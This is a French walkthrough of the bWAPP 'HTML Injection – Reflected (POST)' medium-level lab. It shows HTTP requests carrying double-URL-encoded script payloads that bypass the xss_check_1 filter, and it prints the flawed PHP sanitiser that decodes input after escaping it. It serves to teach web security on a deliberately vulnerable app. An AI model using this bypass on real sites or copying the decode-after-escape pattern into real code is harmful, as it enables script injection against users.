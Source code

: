 # Niveau "Medium"

## Exploitation

L'affichage du prénom et du nom s'effectue ici de la même manière au sein d'une balise `<div></div>` :&#x20;

![](<../../../../../.gitbook/assets/image (23).png>)

Dont voici la requête :&#x20;

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 80
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: PHPSESSID=315cfb443aea2634d941d18c55418bb3; security_level=1
Connection: close

firstname=pr%C3%A9nom+%5Blvl+medium%5D&lastname=nom+%5Blvl+medium%5D&form=submit
```

L'affichage des paramètres d'URL se faire directement au sein de la balise `<div></div>` contenant également le formulaire :&#x20;

```html
<div id="main">
    <h1>HTML Injection - Reflected (POST)</h1>
    <p>Enter your first and last name:</p>
    <form action="/bWAPP/htmli_post.php" method="POST">
        <p><label for="firstname">First name:</label><br />
        <input type="text" id="firstname" name="firstname"></p>
        <p><label for="lastname">Last name:</label><br />
        <input type="text" id="lastname" name="lastname"></p>
        <button type="submit" name="form" value="submit">Go</button>  
    </form>
    <br />
    Welcome prénom [lvl medium] nom [lvl medium]
</div>
```

Cela oblige donc à passer par l'insertion de nouvelles balises afin d'injecter du contenu. Dans ce niveau de difficulté, aucune balise ne semble être interprétée par l'application, que cela soit le classique `<script></script>` :&#x20;

![](<../../../../../.gitbook/assets/image (10).png>)

L'exécution de Javascript dans un attribut HTML :&#x20;

![](<../../../../../.gitbook/assets/image (9).png>)

Ou également l'utilisation de balises customs :&#x20;

![](<../../../../../.gitbook/assets/image (6).png>)

Pour réussir ce challenge il va donc falloir identifier un moyen de transmettre l'information sous une autre forme mais qui sera tout de même interprétée par l'application. Après plusieurs tentatives, l'encodage URL de l'injection semble fonctionner :&#x20;

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 282
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: PHPSESSID=315cfb443aea2634d941d18c55418bb3; security_level=1
Connection: close

firstname=%253c%2573%2563%2572%2569%2570%2574%253e%2561%256c%2565%2572%2574%2528%2530%2529%253c%252f%2573%2563%2572%2569%2570%2574%253e&lastname=%253c%2573%2563%2572%2569%2570%2574%253e%2561%256c%2565%2572%2574%2528%2531%2529%253c%252f%2573%2563%2572%2569%2570%2574%253e&form=submit
```

![](<../../../../../.gitbook/assets/image (21).png>)

## Analyse du code source

Après avoir testé que les paramètres sont bien présents, l'affichage s'effectue grâce à un simple `echo` :

{% code title="htmli_post.php" %}
```php
if(isset($_POST["firstname"]) && isset($_POST["lastname"])) {
  $firstname = $_POST["firstname"];
  $lastname = $_POST["lastname"];

  if($firstname == "" or $lastname == "") {
    echo "<font color=\"red\">Please enter both fields...</font>";
  }
  else {
    echo "Welcome " . htmli($firstname) . " " . htmli($lastname);
  }
}
```
{% endcode %}

Les données sont au préalable traitées par la méthode `htmli()` permettant de gérer la difficulté du niveau sélectionné :

{% code title="htmli_post.php" %}
```php
function htmli($data) {

  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);
      break;
    case "1" :
      $data = xss_check_1($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;
  }

  return $data;
}
```
{% endcode %}

Le level "Medium" correspond à la valeur 1, c'est à dire ici à l'exécution de la méthode `xss_check_1()` :&#x20;

{% code title="functions_external.php" %}
```php
function xss_check_1($data) {
    // Converts only "<" and ">" to HTLM entities
    $input = str_replace("<", "&lt;", $data);
    $input = str_replace(">", "&gt;", $input);

    // Failure is an option
    // Bypasses double encoding attacks
    // <script>alert(0)</script>
    // %3Cscript%3Ealert%280%29%3C%2Fscript%3E
    // %253Cscript%253Ealert%25280%2529%253C%252Fscript%253E
    $input = urldecode($input);

    return $input;
}
```
{% endcode %}

La fonction remplace les caractères `<` et `>` par leur équivalent en entité HTML, soit respectivement `&lt` et `&gt`, rendant impossible l'injection de balises HTML. La ligne 12, par contre, effectue un décodage URL avant de retourner la valeur pour affichage. Le contournement ici sera donc d'encoder URL l'injection (en fait à minima les caractères `<` et `>`) qui sera décodée par la fonction `xss_chech_1()`:

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 248
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: PHPSESSID=315cfb443aea2634d941d18c55418bb3; security_level=1
Connection: close

firstname=%253cscript%253ealert%280%29%253c%2Fscript%253e%26lastname%3D%253cscript%253ealert%281%29%253c%2Fscript%253e&lastname=%253cscript%253ealert%280%29%253c%2Fscript%253e%26lastname%3D%253cscript%253ealert%281%29%253c%2Fscript%253e&form=submit
```

![](<../../../../../.gitbook/assets/image (22).png>)
